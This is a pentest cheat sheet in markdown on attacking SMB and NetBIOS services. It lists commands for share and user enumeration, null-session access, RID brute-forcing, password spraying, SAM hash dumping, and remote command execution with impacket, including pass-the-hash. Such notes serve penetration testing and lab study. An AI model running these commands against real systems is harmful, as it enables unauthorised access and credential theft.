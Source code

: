+++
title = "Pentest - SMB p 139,445"
author = ["svejk"]
tags = ["crackmapexec", "smbmap", "smb", "pentest"]
draft = false
+++

[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)


## Port 139 [NetBIOS]({{< relref "netbios.md" >}}) {#port-139-netbios--netbios-dot-md}

<span class="underline">NetBIOS</span> is `Network Basic Input Output System`, which is a software protocol that allows applications, PCs, and Desktops on a local area network (LAN) to communicate with network hardware and to transmit data across the network.


## Port 445 [SMB - Server Message Block]({{< relref "smb_server_message_block.md" >}}) {#port-445-smb-server-message-block--smb-server-message-block-dot-md}

While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. SMB stands for ‘Server Message Blocks’.


### SMB {#smb}

Server Message Block (SMB) is a client-server protocol that regulates access to files and entire directories and other network resources such as printers, routers, or interfaces released for the network.


## Server Enumeration {#server-enumeration}

Search for hosts:

```shell { linenos=true, linenostart=1 }
nbtscan -r 192.168.1.1/24
```


### SMB information {#smb-information}

```shell { linenos=true, linenostart=1 }
enum4linux -a [-u "<username>" -p "<passwd>"] <IP>
enum4linux-ng -A [-u "<username>" -p "<passwd>"] <IP>

# connect to rpc
rpcclient -U "" -N <IP> #No creds
rpcclient //machine.htb -U domain.local/USERNAME%754d87d42adabcca32bdb34a876cbffb  --pw-nt-hash
rpcclient -U "username%passwd" <IP> #With creds
```

```sh
smbclient //10.10.10.10/Public -U 'anonymous' -N
smbclient -L //dc01.coder.htb -U Guest
```

See also impacket: samrdump, rpcdump


### Users, Groups {#users-groups}

```shell { linenos=true, linenostart=1 }
crackmapexec smb 10.10.10.10 --users [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 --groups [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 --groups --loggedon-users [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 -u usernames.txt -p ‘’ --continue-on-success


ldapsearch -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "(&(objectclass=user))" -h 10.10.10.10 | grep -i samaccountname: | cut -f 2 -d " "

```


### Anonymous logon {#anonymous-logon}

```sh
crackmapexec smb <host> -u 'a' -p '' --shares
```


### List files {#list-files}

```sh
crackmapexec smb <host> -u 'a' -p '' -M spider_plus
```


### Download files {#download-files}

```sh
crackmapexec smb <host> -u 'a' -p '' -M spider_plus -o DOWNLOAD_FLAG=TRUE EXCLUDE_DIR=IPC$
```


### IPC$ Share {#ipc-share}

With an anonymous null session you can access the IPC$ share and interact with services exposed via named pipes. The enum4linux utility within Kali Linux is particularly useful; with it, you can obtain the following:

-   Operating system information
-   Details of the parent domain
-   A list of local users and groups
-   Details of available SMB shares
-   The effective system security policy

RID cycling with `crackmapexec`

```shell { linenos=true, linenostart=1 }
crackmapexec smb <ip> -u 'a' -p '' -d <domain> --rid-brute |grep User
```

then, eg, check for UF_DONT_REQUIRE_PREAUTH and [AS-REP Roasting]({{< relref "as_rep_roasting.md" >}}). Then attempt `crackmapexec` with smb and username password combinations.  Passwords from list (eg rockyou), customized list, usernames as passwords (backwards and forwards, case change, etc).


### SMB Command Execution {#smb-command-execution}

```shell { linenos=true, linenostart=1 }
impacket-smbexec administrator:'<password>'@machine.htb
```


#### Dump sam hashes {#dump-sam-hashes}

```shell { linenos=true, linenostart=1 }
crackmapexec smb <IP> -u <username> -p "PASSWORD" --sam
```


#### wmiexec {#wmiexec}

```shell { linenos=true, linenostart=1 }
impacket-wmiexec <user>@<ip> -hashes "<user hash>"
```
